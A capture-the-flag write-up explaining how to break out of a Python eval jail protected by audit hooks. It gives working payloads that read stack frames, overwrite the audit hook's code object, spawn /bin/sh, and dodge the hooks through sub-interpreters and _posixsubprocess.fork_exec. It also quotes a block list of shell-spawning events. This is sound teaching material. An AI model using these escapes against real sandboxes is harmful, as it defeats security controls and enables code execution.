

# SupEr GUeSsEr G@me

Categories: Misc

Description:
> ???
> 
>author: ??
>
>[chal](src/service.py)

**Tags:** python jail, many ways to break the jail

## Takeaways

* Escaping `eval()` sandbox through stackframes (i.e. accessing `globals()`, `locals()`)
* Reading and/or modifying local/global variables through stack frames.
* Manipulating functions at runtime (even which `__code__` object they are running)
* Multiple statements inside `eval()`
* Many ways to spawn a shell. See the `BALCKED_EVENTS` black list.
* Additional ways to spawn a shell
  * With module `_xxsubinterpreters` (See bellow)
  * With `_posixsubprocess.fork_exec` (See bellow)
* `sys.addaudithook` can be bypassed with sub-interpreters

## Solution

The source code of the challenge is quite interesting:

```python
#Really thanks to pete!
import random
from io import StringIO
import sys
sys.addaudithook

BLACKED_LIST = ['compile', 'eval', 'exec']

eval_func = eval

for m in BLACKED_LIST:
    del __builtins__.__dict__[m]

def my_audit_hook(event, _):
    BALCKED_EVENTS = set({
        'pty.spawn',
        'os.system', 'os.exec', 'os.posix_spawn', 'os.spawn',
        'subprocess.Popen',
        'code.__new__', 'function.__new__', 
        'cpython._PySys_ClearAuditHooks', 
        'open', 'sys._getframe'
    })
    if event in BALCKED_EVENTS:
        raise RuntimeError('Operation banned: {}'.format(event))

def guesser():
    game_score = 0
    sys.stdout.write('Can u guess the number? between 1 and 9999999999999 > \n')
    sys.stdout.flush()
    right_guesser_question_answer = random.randint(1, 9999999999999)
    sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout

    try:
        input_data = eval_func(input(''),{},{})
    except Exception as ex:
        sys.stdout = challenge_original_stdout
        print("~~~ Exception ~~~")
        print("Seems not right! please guess it!")
        return game_score
    sys.stdout = challenge_original_stdout

    if input_data == right_guesser_question_answer:
        game_score += 1
    
    return game_score

WELCOME='''<long prompt>'''

def main():
    print(WELCOME)
    print('Welcome to my guesser game!')
    game_score = guesser()
    if game_score == 1:
        print('you are really super guesser!!!!')
        print('but where are you flag?')
    else:
        print('Guess game end!!!')

if __name__ == '__main__':
    sys.addaudithook(my_audit_hook)
    main()
```

And here is a sample run of the challenge:



Upon reading the source code, we can make the following observations:

* The built-ins `compile`, `eval`, and `exec` are gone. We cannot restore them.
* [`sys.addaudithook`](https://docs.python.org/3/library/sys.html#sys.addaudithook) is used. The events that get banned (before `main()` is invoked) are the following:
  ```python
  'pty.spawn',
  'os.system', 'os.exec', 'os.posix_spawn', 'os.spawn',
  'subprocess.Popen',
  'code.__new__', 'function.__new__', 
  'cpython._PySys_ClearAuditHooks', 
  'open', 'sys._getframe'
  ```
  The full audit event table with all possible events can be found [here](https://docs.python.org/3/library/audit_events.html#audit-events). So, many events to spawn a shell are blacklisted. Code generated via `compile()` is also blacklisted, and also function creation. Clearing the hooks via `cpython._PySys_ClearAuditHooks` is also blacklisted. Finally the `open` syscall is blacklisted and `sys._getframe`.
  * The ban on `open` looks really annoying. How will we open the flag file? It seems that we should somehow bypass these bans.
  * The ban on `sys._getframe` is suspicious. This feels like a hint towards the solution. This function according to the [documentation](https://docs.python.org/3/library/sys.html#sys._getframe), "Returns a frame object from the call stack".
* During [`eval(expression, /, globals=None, locals=None)`](https://docs.python.org/3/library/functions.html#eval) the `globals` and `locals` are set to an empty dictionary. So, we cannot access such variables.
* During execution of `eval()`, we do not have `stdout` and `stderr`. These are only restored later on. So, when we dump the flag, we have to restore the original ones somehow.
* Even if we guess correctly the `right_guesser_question_answer` and we score a point, we still do not get the flag. Why is that even there?

Now, with all these observations, we can start creating an exploit and play around with the target. But first, let's modify the source code for easier debugging:


```diff
nikos@ctf-box:~/ctfs/csaw22-finals/misc/super-guesser-game$ git diff --no-index src/service.py modified-service.py
diff --git a/src/service.py b/modified-service.py
index 7ab9b10..a4a3921 100644
--- a/src/service.py
+++ b/modified-service.py
@@ -11,6 +11,12 @@ eval_func = eval
 for m in BLACKED_LIST:
     del __builtins__.__dict__[m]

+
+def noop(event, _):
+    # Signature similar to `my_audit_hook`. The existence of this function
+    # can be helpful during bypass of the auditing hooks.
+    print ("noop event: " + event)
+
 def my_audit_hook(event, _):
     BALCKED_EVENTS = set({
         'pty.spawn',
@@ -20,6 +26,7 @@ def my_audit_hook(event, _):
         'cpython._PySys_ClearAuditHooks',
         'open', 'sys._getframe'
     })
+    print('Raised event: ' + event)
     if event in BALCKED_EVENTS:
         raise RuntimeError('Operation banned: {}'.format(event))

@@ -28,13 +35,19 @@ def guesser():
     sys.stdout.write('Can u guess the number? between 1 and 9999999999999 > \n')
     sys.stdout.flush()
     right_guesser_question_answer = random.randint(1, 9999999999999)
-    sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout
+    print(f" [*] right_guesser_question_answer: {right_guesser_question_answer}")
+    # sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout #TODO: revert me
+    challenge_original_stdout = sys.stdout

     try:
         input_data = eval_func(input(''),{},{})
+        # input_data = eval_func(input('')) # TODO: REVERT ME!
+        print("Evaluated data:")
+        print(input_data)
     except Exception as ex:
         sys.stdout = challenge_original_stdout
         print("~~~ Exception ~~~")
+        print(ex)
         print("Seems not right! please guess it!")
         return game_score
     sys.stdout = challenge_original_stdout
```

Let's play around with the modified target, and use various payloads:

`listdir()` function does not use `open()`, and instead should use the `getdents64` system call, on which we do not have a ban:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 6547291801889
Raised event: builtins.input
__builtins__['__import__']('os').listdir()
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: os.listdir
Evaluated data:
['modified-service.py', 'notes.txt']
Guess game end!!!
```

We can use file descriptors as a workaround against the `sys.stdout` defense. We know that `stdin`, `stdout`, and `stderr` are the file descriptors `0`,`1`, and `2` correspondingly.
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1362778703045
Raised event: builtins.input
__builtins__['__import__']('os').write(1, b'Hello World!\n')
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Hello World!
Evaluated data:
13
Guess game end!!!
```

So, let's combine our two primitives against the original target to leak the filename of the flag:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
__builtins__['__import__']('os').write(1, ', '.join(__builtins__['__import__']('os').listdir()).encode('utf-8')+b'\n')
service.py, flag.txt
Guess game end!!!
```

Great! So we know that the flag file is named `flag.txt`. Now, we have to come up with a way to either spawn a shell or dump it. Most of the shell spawning primitives are banned in the events. And `open` is also banned in the events so we cannot open it in order to dump it. We have to come up with a way to disable the audit hooks.

(Also, payloads such as `__builtins__['__import__']('pdb').Pdb`, or `breakpoint()` do not work because they do an import of a module, that was not already imported by the main code, hence they invoke an `open` and get banned.)

Maybe we can invoke `sys.addaudithook` and replace the existing hook? From the [documentation of `sys.audithook`](https://docs.python.org/3/library/sys.html#sys.addaudithook) we have:

> Append the callable hook to the list of active auditing hooks for the current (sub)interpreter.
> When an auditing event is raised through the `sys.audit()` function, each hook will be called in the order it was added with the event name and the tuple of arguments.

Hmm. It seems that if we invoke `sys.addaudithook()` again, we will not overwrite its behavior - instead we will just add one more hook in the list. Is maybe there another way to modify the current hook? From the [data model of python](https://docs.python.org/3/reference/datamodel.html) we know that user-defined functions have the attribtue `__code__`. According to the documentation this special attribute represents the compiled function body and is **writable**.

```python
In [19]: def f(x):
    ...:     return x+1
    ...: def g(x):
    ...:     return x+100
In [20]: f(5)
Out[20]: 6

In [21]: g(5)
Out[21]: 105

In [23]: f.__code__
Out[23]: <code object f at 0x7f9d911389d0, file "<ipython-input-19-d4d7bf1dc426>", line 1>

In [24]: g.__code__
Out[24]: <code object g at 0x7f9d8bb0c660, file "<ipython-input-19-d4d7bf1dc426>", line 3>

In [25]: f.__code__ = g.__code__

In [27]: f.__code__
Out[27]: <code object g at 0x7f9d8bb0c660, file "<ipython-input-19-d4d7bf1dc426>", line 3>

In [28]: f(5)
Out[28]: 105

In [29]: g(5)
Out[29]: 105
```

We can read more in the [data model documentation](https://docs.python.org/3/reference/datamodel.html) about Code objects, but a brief description is enough - Code objects represent byte-compiled executable Python code, or [bytecode](https://docs.python.org/3/glossary.html#term-bytecode). With our little experiment we see that we can bypass the hook auditing by changing the attribute `my_audit_hook.__code__` which is the code object associated with the function `my_audit_hook`!

But maybe as a first step before bypassing the audit hook, we first find a way to access the globals since `my_audit_hook` is a function defined in the globals. We know that we are executing in a sandboxed `eval`, meaning that `globals()` and `locals()` will not work. The event `sys._getframe` is banned - which corresponds to the function with the same name ([`sys._getframe`](https://docs.python.org/3/library/sys.html#sys._getframe)) and it seems suspicious. But the event `sys._current_frames` is **not** banned, which corresponds to the function with the same name - [`sys._current_frames`](https://docs.python.org/3/library/sys.html#sys._current_frames). Maybe we can iterate the stack frames and find the local/global variables? Here is the documentation of `sys._current_frames()`:

> `sys._current_frames()`
>
>Return a dictionary mapping each thread’s identifier to the topmost stack frame currently active in that thread at the time the function is called. Note that functions in the traceback module can build the call stack given such a frame.
>
>Raises an auditing event sys._current_frames with no arguments. [...]

Here is an example call:

```python
In [18]: list(sys._current_frames().values())
Out[18]:
[<frame at 0x559e9dcbc4a0, file '~/.pyenv/versions/3.10.5/lib/python3.10/threading.py', line 320, code wait>,
 <frame at 0x559e9df45950, file '<ipython-input-18-126aeeec8d27>', line 1, code <cell line: 1>>]
```

The list contains object of [type `frame`](https://docs.python.org/3/reference/datamodel.html#frame-objects). Here is some useful documentation for our use case:

> Frame objects: Represent execution frames.
>
> Special read-only attributes: **`f_back`** is to the previous stack frame (towards the caller), or None if this is the bottom stack frame; `f_code` is the code object being executed in this frame; **`f_locals`** is the dictionary used to look up local variables; **`f_globals`** is used for global variables; `f_builtins` is used for built-in (intrinsic) names; `f_lasti` gives the precise instruction (this is an index into the bytecode string of the code object). [...]

So, maybe we can go back in the stack frames, find the stack frame of the `guesser()` function, and access its locals and globals. This aligns also with the given hint of leaking `right_guesser_question_answer`! So, let's try that:

Invoke `sys._current_frames()` to find all threads:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1000046225784
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
[<frame at 0x7f250f27ac00, file '<string>', line 1, code <module>>]
Guess game end!!!
```

Select a thread and go back a stack frame:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 6308927929287
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
<frame at 0x7fa439a11f40, file '~/ctfs/csaw22-finals/misc/super-guesser-game/service.py', line 46, code guesser>
Guess game end!!!
```

As you can see, we are now in the `guesser()` function! Let's access the `f_locals` and `f_globals`!

Accessing `f_locals`:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 5953965730357
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
{'game_score': 0, 'right_guesser_question_answer': 5953965730357, 'challenge_original_stdout': <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>}
Guess game end!!!
```

Accessing `f_globals`:
```bash
nikos@ctf-box:~/ctfs/csaw22-finals/misc/super-guesser-game$ python service.py
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1544246279733
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f47a2e6d810>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '~/ctfs/csaw22-finals/misc/super-guesser-game/service.py', '__cached__': None, 'random': <module 'random' from '~/.pyenv/versions/3.10.5/lib/python3.10/random.py'>, 'StringIO': <class '_io.StringIO'>, 'sys': <module 'sys' (built-in)>, 'BLACKED_LIST': ['compile', 'eval', 'exec'], 'eval_func': <built-in function eval>, 'm': 'exec', 'noop': <function noop at 0x7f47a2fafd90>, 'my_audit_hook': <function my_audit_hook at 0x7f47a2d29c60>, 'guesser': <function guesser at 0x7f47a2d29cf0>, 'WELCOME': "<long prompt>", 'main': <function main at 0x7f47a2d29d80>}
Guess game end!!!
```

Nice! As you can see, from the `f_locals` we managed to leak the value of `right_guesser_question_answer` which we can use to score a point (but we do not care). We can also use the value of `challenge_original_stdout` in order to restore `stdout` and enable again `print()` statements without having to resort to the file descriptors trick that we used before.

Okay, so let's mind-map the steps of our payload:

1. Restore `sys.stdout` to the value of `challenge_original_stdout` found in the stack frame of `guesser()`
2. Change `my_audit_hook.__code__`  to a function that is a noop.
3. Invoke `os.system('cat flag.txt')` to get the flag.

As we can already see, our payload consists of multiple statements. This is problematic since we are inside an `eval` and we can only have a single statement. Another issue is that we want to assign a value to `my_audit_hook.__code__`, which is again problematic inside an `eval`. For example, `myobj.x=1` is not allowed inside an `eval` as it is not an expression. How can we overcome these challenges?

For our first problem, we can simply use a list. We can represent multiple expressions as: `[expr1, expr2, ...]`. For example:
```python
In [36]: eval('[1+1, 2+2]')
Out[36]: [2, 4]
```

For our second problem, the notation `myobj.x=1` is just syntactic sugar.

```bash
In [44]: class Foo:
    ...:     def __init__(self):
    ...:         self.x = 0
    ...:

In [45]: foo = Foo()

In [46]: foo.x = 1

In [47]: foo.x
Out[47]: 1

In [48]: foo.__setattr__('x', 2)

In [49]: foo.x
Out[49]: 2
```

So, `my_audit_hook.__code__=noop.__code__` is the same as `my_audit_hook.__setattr__('__code__', noop.__code__)`.

Okay, let's try to construct our payload now!

### Payload construction

#### Restoration of `sys.stdout`

Let's restore `sys.stdout` to its original value and do a dummy `print()` as proof of concept:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
[__builtins__['__import__']('sys').__setattr__('stdout', list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals['challenge_original_stdout']), print("Hello World!")]
Hello World!
Guess game end!!!
```

#### Changing `my_audit_hook.__code__`

To change `my_audit_hook.__code__` we first need another function whose `.__code__` attribute we can use. Let's try to create a new lambda function and see if that works:

```python
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 3712522829941
Raised event: builtins.input
(lambda: None).__code__
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: object.__getattr__
Evaluated data:
<code object <lambda> at 0x7f047af34c90, file "<string>", line 1>
Guess game end!!!
```

Apparently it does work! Even though the events `function.__new__` and `code.__new__` are blacklisted, they do not get fired because according to the documentation [[1](https://docs.python.org/3/library/sys.html#sys.addaudithook), [2](https://docs.python.org/3/library/types.html#types.FunctionType), [3](https://docs.python.org/3/library/types.html#types.CodeType)]:

>`types.FunctionType`
>
>`types.LambdaType`
>
>The type of user-defined functions and functions created by lambda expressions. Raises an auditing event `function.__new__` with argument code. **The audit event only occurs for direct instantiation of function objects, and is not raised for normal compilation**.
> 
>[...]
>
>`class types.CodeType(**kwargs)`
>
>The type for code objects such as returned by `compile()`. Raises an auditing event `code.__new__` [...]. **The audit event only occurs for direct instantiation of code objects, and is not raised for normal compilation**.

This means that the events would get triggered if we were to **programmatically** create code or function objects. However, here we are simply creating them through compilation. Here is a (dumb) example of what it means to create them programmatically:

```python
import types
import sys
def create_function(name):
    def y():
        pass
    y_code = types.CodeType(0, 0, 0,
                            y.__code__.co_nlocals,
                            y.__code__.co_stacksize,
                            y.__code__.co_flags,
                            y.__code__.co_code,
                            y.__code__.co_consts,
                            y.__code__.co_names,
                            y.__code__.co_varnames,
                            y.__code__.co_filename,
                            name,
                            y.__code__.co_firstlineno,
                            y.__code__.co_lnotab)      # raises code.__new__
    return types.FunctionType(y_code, globals(), name) # raises function.__new__


def my_audit_hook(event, _):
    print('Raised event: ' + event)
sys.addaudithook(my_audit_hook)

myfunc = create_function('myfunc')
```

So, back to constructing our payload to disable auditing. We will invoke `os.open('flag.txt')` as PoC to verify that indeed our payload worked:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 4545313753576
Raised event: builtins.input
[list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals['my_audit_hook'].__setattr__('__code__', (lambda arg1, arg2: None).__code__), __builtins__['__import__']('os').open('flag.txt', 0)]
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Raised event: object.__getattr__
Raised event: object.__setattr__
Evaluated data:
[None, 3]
Guess game end!!!
```

And indeed it worked! The `3` that appears in `[None, 3]`, is our file descriptor! Also, we see no event raised!

### Final Payload

Ok, now we have all we need to construct our final payload, and get the flag. Let's throw our payload against the server's challenge:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
[__builtins__['__import__']('sys').__setattr__('stdout', list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals['challenge_original_stdout']), print("Hello World!"), list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals['my_audit_hook'].__setattr__('__code__', (lambda arg1, arg2: None).__code__), __builtins__['__import__']('os').system('/bin/sh')]
Hello World!
$ ls
flag.txt  service.py
$ cat flag.txt
flag{dummy}
$ exit
Guess game end!!!
```

And we leaked the flag!

`flag{dummy}`


--------------------

## Other solutions

### Sub-interpreters (`_xxsubinterpreters`)

Another very creative solution (and probably unintended) is to use [python sub-interpreters](https://docs.python.org/3/c-api/init.html#sub-interpreter-support). When creating a new sub-interpreter, the following happens:

> This is an (almost) totally separate environment for the execution of Python code. In particular, the new interpreter has separate, independent versions of all imported modules, including the fundamental modules `builtins`, `__main__` and `sys`. The table of loaded modules (`sys.modules`) and the module search path (`sys.path`) are also separate. The new environment has no `sys.argv` variable. **It has new standard I/O stream file objects** `sys.stdin`, `sys.stdout` and `sys.stderr` (however these refer to the same underlying file descriptors).

And let me also quote again here the [`sys.addaudithook` documentation](https://docs.python.org/3/library/sys.html#sys.addaudithook):

> Append the callable hook to the list of active auditing hooks for the **current (sub)interpreter**.

This sounds awesome! If we manage to create a new sub-interpreter:

1. We bypass the `sys.stdout` restriction as the new sub-interpreter has new standard I/O stream file object `sys.stdout`
2. The line `del __builtins__.__dict__[m]` from the challenge code is bypassed as we have an independent version of the `builtins`
3. The `sys.addaudithook(my_audit_hook)` is bypassed, as the audit hooks are pre sub-interpreter!

But how can we create a sub-interpreter from the Python API? Well, we just have to dig a bit deeper in the python internals. First let's find out the implementation of our Python (CPython, Jython, PyPy, etc.)

```python
In [23]: import platform

In [24]: platform.python_implementation()
Out[24]: 'CPython'
```

(Or we can just simply assume it is `CPython` as it probably is in most common systems.)

Next, we look at CPython's source code and find out what (internal) modules are available. The list of available modules can be found at [cpython/Modules](https://github.com/python/cpython/tree/3.10/Modules). One very interesting module is implemented in the `_xxsubinterpretersmodule.c` file. Let's read the source code a bit:

```c
PyDoc_STRVAR(module_doc,
"This module provides primitive operations to manage Python interpreters.\n\
The 'interpreters' module provides a more convenient interface.");

static struct PyModuleDef interpretersmodule = {
  PyModuleDef_HEAD_INIT,
  "_xxsubinterpreters",  /* m_name */
  module_doc,            /* m_doc */
  -1,                    /* m_size */
  module_functions,      /* m_methods */
  NULL,                  /* m_slots */
  NULL,                  /* m_traverse */
  NULL,                  /* m_clear */
  NULL                   /* m_free */
};

static PyMethodDef module_functions[] = {
  {"create",                    (PyCFunction)(void(*)(void))interp_create,
    METH_VARARGS | METH_KEYWORDS, create_doc},
  {"destroy",                   (PyCFunction)(void(*)(void))interp_destroy,
    METH_VARARGS | METH_KEYWORDS, destroy_doc},
  {"list_all",                  interp_list_all,
    METH_NOARGS, list_all_doc},
  {"get_current",               interp_get_current,
    METH_NOARGS, get_current_doc},
  {"get_main",                  interp_get_main,
    METH_NOARGS, get_main_doc},
  {"is_running",                (PyCFunction)(void(*)(void))interp_is_running,
    METH_VARARGS | METH_KEYWORDS, is_running_doc},
  {"run_string",                (PyCFunction)(void(*)(void))interp_run_string,
    METH_VARARGS | METH_KEYWORDS, run_string_doc},

  {"is_shareable",              (PyCFunction)(void(*)(void))object_is_shareable,
    METH_VARARGS | METH_KEYWORDS, is_shareable_doc},

  {"channel_create",            channel_create,
    METH_NOARGS, channel_create_doc},
  {"channel_destroy",           (PyCFunction)(void(*)(void))channel_destroy,
    METH_VARARGS | METH_KEYWORDS, channel_destroy_doc},
  {"channel_list_all",          channel_list_all,
    METH_NOARGS, channel_list_all_doc},
  {"channel_list_interpreters", (PyCFunction)(void(*)(void))channel_list_interpreters,
    METH_VARARGS | METH_KEYWORDS, channel_list_interpreters_doc},
  {"channel_send",              (PyCFunction)(void(*)(void))channel_send,
    METH_VARARGS | METH_KEYWORDS, channel_send_doc},
  {"channel_recv",              (PyCFunction)(void(*)(void))channel_recv,
    METH_VARARGS | METH_KEYWORDS, channel_recv_doc},
  {"channel_close",             (PyCFunction)(void(*)(void))channel_close,
    METH_VARARGS | METH_KEYWORDS, channel_close_doc},
  {"channel_release",           (PyCFunction)(void(*)(void))channel_release,
    METH_VARARGS | METH_KEYWORDS, channel_release_doc},
  {"_channel_id",               (PyCFunction)(void(*)(void))channel__channel_id,
    METH_VARARGS | METH_KEYWORDS, NULL},

  {NULL,                        NULL}           /* sentinel */
};
```

Okay, so the module is named `_xxsubinterpreters` and let's play around with it:
```python
In [30]: _xxsubinterpreters.run_string?
Docstring:
run_string(id, script, shared)

Execute the provided string in the identified interpreter.

See PyRun_SimpleStrings.
Type:      builtin_function_or_method

In [31]: _xxsubinterpreters.create?
Docstring:
create() -> ID

Create a new interpreter and return a unique generated ID.
Type:      builtin_function_or_method
```

But how about the `shared` parameter? Reading a little bit more the source code ([[L2180](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2180), [L2203](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2203), [L1929](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L1929), [L129](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L120), [L2234](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2234))], we infer that the `shared` parameter is to share python variables across sub-interpreters. Let's try using this API:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 2256132424220
Raised event: builtins.input
__import__('_xxsubinterpreters').run_string(__import__('_xxsubinterpreters').create(), 'print("Hello World!")', None)
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: import
Raised event: import
Raised event: cpython.PyInterpreterState_New
Hello World!
Evaluated data:
None
Guess game end!!!
```

As we can see, it works! Let's use this approach and throw our payload to the remote to dump the flag:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
__import__('_xxsubinterpreters').run_string(__import__('_xxsubinterpreters').create(), 'import os; os.system("cat flag.txt")', None)
flag{dummy}
Guess game end!!!
```

And we get the flag! `flag{dummy}`

### Using `_posixsubprocess`

Similarly to the above solution, we can also use the internal module [`_posixsubprocess`](https://github.com/python/cpython/blob/3.10/Modules/_posixsubprocess.c#L1088). The only exported function in this module is [`fork_exec`](https://github.com/python/cpython/blob/3.10/Modules/_posixsubprocess.c#L1079):

```bash
In [1]: import _posixsubprocess

In [2]: _posixsubprocess.fork_exec?
Docstring:
fork_exec(args, executable_list, close_fds, pass_fds, cwd, env,
          p2cread, p2cwrite, c2pread, c2pwrite,
          errread, errwrite, errpipe_read, errpipe_write,
          restore_signals, call_setsid,
          gid, groups_list, uid,
          preexec_fn)

Forks a child process, closes parent file descriptors as appropriate in the
child and dups the few that are needed before calling exec() in the child
process.

If close_fds is true, close file descriptors 3 and higher, except those listed
in the sorted tuple pass_fds.

The preexec_fn, if supplied, will be called immediately before closing file
descriptors and exec.
WARNING: preexec_fn is NOT SAFE if your application uses threads.
         It may trigger infrequent, difficult to debug deadlocks.

If an error occurs in the child process before the exec, it is
serialized and written to the errpipe_write fd per subprocess.py.

Returns: the child process's PID.

Raises: Only on an error in the parent process.
Type:      builtin_function_or_method
```

Since we are lazy to figure out the arguments one-by-one, we just look at the how the function is internally used, e.g. by the `multiprocessing` module:

```python
# https://github.com/python/cpython/blob/3.10/Lib/multiprocessing/util.py#L447
# Start a program with only specified fds kept open
def spawnv_passfds(path, args, passfds):
  import _posixsubprocess
  passfds = tuple(sorted(map(int, passfds)))
  errpipe_read, errpipe_write = os.pipe()
  try:
    return _posixsubprocess.fork_exec(
      args, [os.fsencode(path)], True, passfds, None, None,
      -1, -1, -1, -1, -1, -1, errpipe_read, errpipe_write,
      False, False, None, None, None, -1, None
    )
```

So, here is a working example:
```python
In [16]: path = "/bin/ls"
    ...: args = ("/bin/ls", "-l")
    ...: errpipe_read, errpipe_write = os.pipe()
    ...: _posixsubprocess.fork_exec(
    ...:   args, [os.fsencode(path)], True, (), None, None,
    ...:   -1, -1, -1, -1, -1, -1, errpipe_read, errpipe_write,
    ...:   False, False, None, None, None, -1, None
    ...: )
flag.txt  service.py
Out[16]: 43154
```

Awesome! Let's adjust the above payload to dump our flag:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 2311328684755
Raised event: builtins.input
__import__('_posixsubprocess').fork_exec( ('/bin/cat', 'flag.txt'), [b'/bin/cat'], True, (), None, None, -1, -1, -1, -1, -1, -1, *__import__('os').pipe(), False, False, None, None, None, -1, None)
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: import
Raised event: import
Raised event: import
Raised event: open
Evaluated data:
45352
Guess game end!!!
flag{dummy}
```

As we cam see, no bad events are raised as the imported modules were already previously imported. And we successfully manage to dump the flag!

`flag{dummy}`
